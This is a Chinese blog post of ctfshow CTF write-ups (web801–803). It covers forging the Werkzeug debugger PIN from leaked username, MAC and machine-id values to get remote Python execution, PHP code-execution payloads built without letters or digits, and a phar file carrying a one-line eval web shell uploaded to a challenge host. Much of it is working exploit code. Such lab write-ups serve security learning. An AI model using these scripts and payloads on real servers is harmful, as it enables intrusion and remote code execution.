---
title: "ctfshow入门常用姿势"
date: 2025-11-11T16:29:08+08:00
summary: "ctfshow入门常用姿势"
url: "/posts/ctfshow入门常用姿势/"
categories:
  - "ctfshow"
tags:
  - "常用姿势"
draft: false
---

## web801

打开题目出现一串提示

```html
Welcome to ctfshow file download system, use /file?filename= to download file,my debug mode is enable.
```

提示debug模式已打开

尝试读取一下/etc/passwd发现可以读，那么直接读一下app.py

```python

# -*- coding: utf-8 -*-
from flask import Flask, request
app = Flask(__name__)

@app.route("/")
def hello():
    return "Welcome to ctfshow file download system, use /file?filename= to download file,my debug mode is enable."

@app.route("/file")
def file():
    filename = request.args.get('filename')
    with open(filename, 'r') as f:
        return f.read()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80, debug=True)
```

好像没啥用

扫目录扫出一个/console路由，访问一下看看



翻译一下

```tex
控制台已锁定，需要输入PIN码解锁。您可以在运行服务器的shell的标准输出上找到打印出的PIN码。
```

这里的话需要输入PIN码，但是这个PIN码怎么来呢

### #flask计算pin值

当Flask开启调试模式（debug=True）时，默认使用的是Werkzeug 内置调试器，而调试器可以在浏览器中交互式执行Python代码

PIN码是Werkzeug 内置调试器生成的调试PIN，是一种Flask开发服务器在调试模式下的安全机制，所以我们需要正确的PIN码才能进入调试模式

Werkzeug官方对Debugger PIN的介绍



那这里的PIN码怎么生成以及获取呢？

本地测试一下，写一个简单的flask

```python
from flask import Flask

app = Flask(__name__)
@app.route('/')
def index():
    return 'Hello World!'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080,debug=True)
```



在shell中可以看到此时生成了一个PIN码，然后我们打个断点调试一下

在app.run行打上断点，调试后步入app.py中的run函数

```python
    def run(
        self,
        host: str | None = None,
        port: int | None = None,
        debug: bool | None = None,
        load_dotenv: bool = True,
        **options: t.Any,
    ) -> None:
...
        if os.environ.get("FLASK_RUN_FROM_CLI") == "true":
            if not is_running_from_reloader():
                click.secho(
                    " * Ignoring a call to 'app.run()' that would block"
                    " the current 'flask' CLI command.\n"
                    "   Only call 'app.run()' in an 'if __name__ =="
                    ' "__main__"\' guard.',
                    fg="red",
                )

            return

        if get_load_dotenv(load_dotenv):
            cli.load_dotenv()

            # if set, env var overrides existing value
            if "FLASK_DEBUG" in os.environ:
                self.debug = get_debug_flag()

        # debug passed to method overrides all other sources
        if debug is not None:
            self.debug = bool(debug)

        server_name = self.config.get("SERVER_NAME")
        sn_host = sn_port = None

        if server_name:
            sn_host, _, sn_port = server_name.partition(":")

        if not host:
            if sn_host:
                host = sn_host
            else:
                host = "127.0.0.1"

        if port or port == 0:
            port = int(port)
        elif sn_port:
            port = int(sn_port)
        else:
            port = 5000

        options.setdefault("use_reloader", self.debug)
        options.setdefault("use_debugger", self.debug)
        options.setdefault("threaded", True)

        cli.show_server_banner(self.debug, self.name)

        from werkzeug.serving import run_simple

        try:
            run_simple(t.cast(str, host), port, self, **options)
        finally:
            # reset the first request information if the development server
            # reset normally.  This makes it possible to restart the server
            # without reloader and that stuff from an interactive shell.
            self._got_first_request = False
```

发现有一段代码

```python
from werkzeug.serving import run_simple
try:
    run_simple(t.cast(str, host), port, self, **options)
```

这里从Werkzeug中导入了run_simple模块，并且还在try中用到了try_simple，我们跟进run_simple去看看

找到跟debug有关的部分



这里的话先是检测了是否开启debugger，那么这里很可能就是处理debug模式的代码，跟进DebuggedApplication看看

首先进入`__init__`函数，看看这里都初始化了哪些东西

```python
    def __init__(
        self,
        app: WSGIApplication,
        evalex: bool = False,
        request_key: str = "werkzeug.request",
        console_path: str = "/console",
        console_init_func: t.Callable[[], dict[str, t.Any]] | None = None,
        show_hidden_frames: bool = False,
        pin_security: bool = True,
        pin_logging: bool = True,
    ) -> None:
        if not console_init_func:
            console_init_func = None
        self.app = app
        self.evalex = evalex
        self.frames: dict[int, DebugFrameSummary | _ConsoleFrame] = {}
        self.frame_contexts: dict[int, list[t.ContextManager[None]]] = {}
        self.request_key = request_key
        self.console_path = console_path
        self.console_init_func = console_init_func
        self.show_hidden_frames = show_hidden_frames
        self.secret = gen_salt(20)
        self._failed_pin_auth = Value("B")

        self.pin_logging = pin_logging
        if pin_security:
            # Print out the pin for the debugger on standard out.
            if os.environ.get("WERKZEUG_RUN_MAIN") == "true" and pin_logging:
                _log("warning", " * Debugger is active!")
                if self.pin is None:
                    _log("warning", " * Debugger PIN disabled. DEBUGGER UNSECURED!")
                else:
                    _log("info", " * Debugger PIN: %s", self.pin)
        else:
            self.pin = None

        self.trusted_hosts: list[str] = [".localhost", "127.0.0.1"]
        """List of domains to allow requests to the debugger from. A leading dot
        allows all subdomains. This only allows ``".localhost"`` domains by
        default.

        .. versionadded:: 3.0.3
        """
```

参数就不用看了，生成了一些调试器参数



这里调用到一个pin函数，跟进看一下

```python
    @property
    def pin(self) -> str | None:
        if not hasattr(self, "_pin"):
            pin_cookie = get_pin_and_cookie_name(self.app)
            self._pin, self._pin_cookie = pin_cookie  # type: ignore
        return self._pin
```

这段代码是用于获取调试器PIN的方法

这里有一个装饰器`@property`，用于将类的方法变成只读属性或带逻辑的属性访问器

先是检查是否已经生成了`_pin`属性，没有的话就调用get_pin_and_cookie_name方法去获取PIN和对应cookie名称

我们跟进get_pin_and_cookie_name看看

```python
def get_pin_and_cookie_name(
    app: WSGIApplication,
) -> tuple[str, str] | tuple[None, None]:
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.

    Second item in the resulting tuple is the cookie name for remembering.
    """
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == "off":
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace("-", "").isdecimal():
        # If there are separators in the pin, return it directly
        if "-" in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, "__module__", t.cast(object, app).__class__.__module__)
    username: str | None

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    # Python >= 3.13 only raises OSError
    except (ImportError, KeyError, OSError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode()
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = f"__wzd{h.hexdigest()[:20]}"

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

rv就是PIN码，看看这个rv怎么来的



先是从WERKZEUG_DEBUG_PIN环境变量中尝试获取pin，如果pin为off就返回空，如果pin存在就检测是否存在`-`分隔符，存在就直接赋值给rv，这是PIN码的分隔符`xxx-xxx-xxx`，如果没有分隔符就存入num后面进行格式化。



获取模块名modname以及当前用户名username、模块对象mod，这些会用于生成PIN和Cookie

然后就来到了关键代码

```python
probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]
```

定义了一个列表probably_public_bits和private_bits

probably_public_bits列表

- `username` → 当前系统用户名
- `modname` → 应用模块名
- `getattr(app, "__name__", type(app).__name__)` → 应用名称
- `getattr(mod, "__file__", None)` → 模块文件路径

private_bits列表

```python
private_bits = [str(uuid.getnode()), get_machine_id()]
```

额外加入 **机器唯一标识**：

1. `uuid.getnode()` → 获取 MAC 地址
2. `get_machine_id()` → 获取机器 ID（不同操作系统实现不同）


```python
    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:	#如果为空就跳过
            continue
        if isinstance(bit, str):	#如果是str类型就encode()转化成字节
            bit = bit.encode()
        h.update(bit)	#将每个元素处理累加到哈希值h中
    h.update(b"cookiesalt")	#加入固定字节 "cookiesalt"

    cookie_name = f"__wzd{h.hexdigest()[:20]}"	#将 SHA1 哈希值转为十六进制字符串并取前20个字符作为cookie，前缀为__wzd
```

随后遍历这两个列表的元素，`isinstance()` 用于 **判断一个对象是否属于某个类型或类型元组**。

继续看最后的代码

```python
    if num is None:
        h.update(b"pinsalt")#再累加一层pinsalt
        num = f"{int(h.hexdigest(), 16):09d}"[:9]#将 SHA1 哈希的十六进制值转为整数转化成9位十进制数字并截取前面9位

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:#尝试将 PIN 分组为 5 位、4 位、3 位
            if len(num) % group_size == 0:#
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```

这里就是主要的生成PIN码的部分，如果没有从环境变量中获取到PIN，就执行第一个if的操作，如果rv是空的，也就是没有接收到pin码，那就执行第二个if，也就是将num中的PIN码格式化处理一下，用`-`去连接

例如

```python
num = "123456789"
group_size = 3
# 分组结果: ["123", "456", "789"]
rv = "123-456-789"
```

到这里pin码的生成原理我们就明白了，我们尝试写一个可以生成pin码的脚本

### 生成pin需要的元素

```python
username-->getpass.getuser()	
#可通过文件读取linux可以查看/etc/passwd，windows可以查看C:/Users目录

modname-->getattr(app, "__module__", t.cast(object, app).__class__.__module__)
#Flask 实例本身没有 __module__ 属性，所以取默认值为flask.app，这个写个测试代码return getattr(app, "__module__", typing.cast(object, app).__class__.__module__)打印可以得出

appname-->getattr(app, "__name__", type(app).__name__)
#Flask 实例本身没有 __name__ 属性，所以取默认值Flask

mod-->sys.modules.get(modname)
moddir-->getattr(mod, "__file__", None)
#获取模块的文件路径，实际应用中通过报错读取

uuid-->uuid.getnode()
#通过文件/sys/class/net/eth0/address得到16进制结果，转化为10进制进行计算

machine_id-->get_machine_id()
#每一个机器都会有自已唯一的id，
#1、/etc/machine-id（文件内容是 一个唯一的机器 ID）
#2、/proc/sys/kernel/random/boot_id
#3、/proc/self/cgroup
#docker环境读取后两个，非docker环境三个都要读取，读取结果合并就行
```

结合函数后面的算法，我们可以写一个脚本

3.6采用MD5加密，3.8采用sha1加密，所以脚本有所不同

md5的

```python
import hashlib
import getpass
from flask import Flask
from itertools import chain
import sys
import uuid
app = Flask(__name__)
username = getpass.getuser()
modname = getattr(app, "__module__",  app.__class__.__module__)
mod = sys.modules.get(modname)
probably_public_bits = [
    username,#通过文件读取linux可以查看/etc/passwd，windows可以查看C:/Users目录
    modname,#默认值为flask.app
    getattr(app, "__name__", app.__class__.__module__),#默认值Flask
    getattr(mod, "__file__", None),#获取模块的文件路径，实际应用中通过报错读取
]

mac ='xxxxxx'.replace(':','')#/sys/class/net/eth0/address获取mac地址
mac=str(int(mac,base=16))
private_bits =[
    mac,
    ""#机器码
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = "__wzd" + h.hexdigest()[:20]

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
num=None
if num is None:
    h.update(b"pinsalt")
    num = ("%09d" % int(h.hexdigest(), 16))[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num
    print(rv)
```

sha1的

```python
"""
旧版计算PIN码#sha1
"""
import hashlib
import getpass
from flask import Flask
from itertools import chain
import sys
import uuid
username='root'
app = Flask(__name__)
username = getpass.getuser()
modname = getattr(app, "__module__",  app.__class__.__module__)
mod = sys.modules.get(modname)
probably_public_bits = [
    username,#通过文件读取linux可以查看/etc/passwd，windows可以查看C:/Users目录
    modname,#默认值为flask.app
    getattr(app, "__name__", app.__class__.__module__),#默认值Flask
    getattr(mod, "__file__", None),#获取模块的文件路径，实际应用中通过报错读取
]

mac ='xxxxxx'.replace(':','')#/sys/class/net/eth0/address获取mac地址
mac=str(int(mac,base=16))
private_bits =[
    mac,
    ""#机器码
]
print(private_bits)

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode()
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x: x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num
print(rv)

```

那我们挨个获取一下这些元素

最终的poc

```python
"""
旧版计算PIN码#sha1
"""
import hashlib
from itertools import chain

probably_public_bits = [
    "root",#通过文件读取linux可以查看/etc/passwd，windows可以查看C:/Users目录
    "flask.app",#默认值为flask.app
    "Flask",#默认值Flask
    "/usr/local/lib/python3.8/site-packages/flask/app.py",#获取模块的文件路径，实际应用中通过报错读取
]

mac ='02:42:ac:0c:de:8a'.replace(':','')#/sys/class/net/eth0/address获取mac地址
mac=str(int(mac,base=16))
private_bits =[
    mac,
    "225374fa-04bc-4346-9f39-48fa82829ca903287d31024982f285492f0b58ee6c3aecd972e6dc7b85209d4b4dc471a9a91f"#机器码
]
print(private_bits)

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode()
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

# If we need to generate a pin we salt it a bit more so that we don't
# end up with the same value and generate out 9 digits
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]

# Format the pincode in groups of digits for easier remembering if
# we don't have a result yet.
rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x: x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num
print(rv)

"""
['2485377621642', '225374fa-04bc-4346-9f39-48fa82829ca903287d31024982f285492f0b58ee6c3aecd972e6dc7b85209d4b4dc471a9a91f']
261-357-408
"""
```

成功拿到pin码261-357-408，传入后就可以执行python代码了



## web802

### #无数字字母RCE

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$cmd = $_POST['cmd'];

if(!preg_match('/[a-z]|[0-9]/i',$cmd)){
    eval($cmd);
}
```

最简单的无数字字母RCE

#### 自增

```php
<?php
$_=[];$_=''.$_;$_=$_['!'==''];$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___();
echo $___;//phpinfo
```



传入cmd后成功执行phpinfo，那就可以直接打了

#### 异或

先生成一下异或表达式，用一下yu22x师傅的脚本

```php
<?php


$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {
    for ($j=0; $j <256 ; $j++) {

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[a-z]|[0-9]/i'; //根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
            echo "";
        }

        else{
            $a='%'.$hex_i;
            $b='%'.$hex_j;
            $c=(urldecode($a)^urldecode($b));
            if (ord($c)>=32&ord($c)<=126) {
                $contents=$contents.$c." ".$a." ".$b."\n";
            }
        }

    }
}
fwrite($myfile,$contents);
fclose($myfile);

```

然后写一个python脚本

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os


def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
            t = f.readline()
            if t == "":
                break
            if t[0] == i:
                # print(i)
                s1 += t[2:5]
                s2 += t[6:9]
                break
        f.close()
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return (output)


while True:
    param = action(input("\n[+] your function：")) + action(input("[+] your command：")) + ";"
    print(param)
```

#### 或

```php
<?php

/* author yu22x */

$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z]|[0-9]/i';//根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("or_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)


```

#### 取反

```php
<?php
//在命令行中运行

fwrite(STDOUT,'[+]your function: ');

$system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

fwrite(STDOUT,'[+]your command: ');

$command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN)); 

echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
```

## web803

### #phar文件包含

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```

这里的话有一个文件包含和一个写文件的口子，但是伪协议被禁用了，只能走else打正常的文件上传然后去包含了

```php
<?php
@unlink("a.phar");
$phar=new Phar("a.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
$phar->addFromString("a.txt","<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();

```

可以用python脚本去上传，这样更方便

```python
import requests

url = "http://5399ddfb-7e03-4d3d-ab2c-f083e5f7f163.challenge.ctf.show/"
file = {
    'file': '/tmp/a.phar', 
    'content': open('a.phar', 'rb').read()
}
data = {
    'file': 'phar:///tmp/a.phar/a', 
    'content': 'test', 
    '1': 'system("cat f*");'
}
requests.post(url, data=file)
